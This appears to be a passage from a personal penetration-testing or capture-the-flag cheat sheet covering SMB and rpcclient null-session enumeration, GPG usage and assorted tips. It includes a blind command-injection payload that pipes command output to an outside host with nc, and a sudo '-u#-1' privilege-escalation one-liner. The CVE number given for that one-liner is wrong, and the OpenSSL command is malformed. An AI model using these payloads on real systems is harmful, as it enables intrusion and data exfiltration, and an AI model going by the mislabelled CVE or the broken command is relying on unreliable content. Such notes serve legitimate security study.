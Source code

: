 - Forward the unusual service and check it like 445 SMB or HTTP or FTP service.
22. Enum smtp with telnet.
23. On windows, always check `whoami /priv` and find recent vulnerability.
24. Always check .git, and dont forget to use gitdumper.
25. Keep an eye for exposed docker API port 2375 or 2376
26. No gcc? search for cc

27. DONT FORGET BLIND COMMAND INJECTION (pipe the injection with nc to see the result)
ex: asdasd;ls -la | nc 10.8.102.36 1234

28. Check for .htpasswd in LFI (/etc/apache2/.htpasswd or in other locations)


## list shares
`smbclient -L //[IP]`

## try anonymous login
`smbclient -N //[IP]/[sharename]`

## try null authentication
`smclient -U '' -N //[IP]/sharename`

## try with rpcclient (when got in just google rpcclient commands)
`rpcclient [ip]`

## try with rpcclient with null authentication
`rpcclient -U '' -N [IP]`



 
**GPG**
https://linux.101hacks.com/unix/gpg-command-examples/
Example to encrypt:
1. gpg --import [public_key]
2. gpg --recipient [user will be recieving] --encrypt [file_name]
3. The output shouldbe [file_name].gpg
Example to decrypt:
1. gpg --import [private_key]
2. gpg [file_name]
or
1. gpg --decrypt [file_name]


**CVE-2019-13287**
(ALL, !root) /bin/bash >>> sudo -u#-1 /bin/bash



**OpenSSL**
1. Decrypt RSA
openssl id_rsa -in=id_rsa
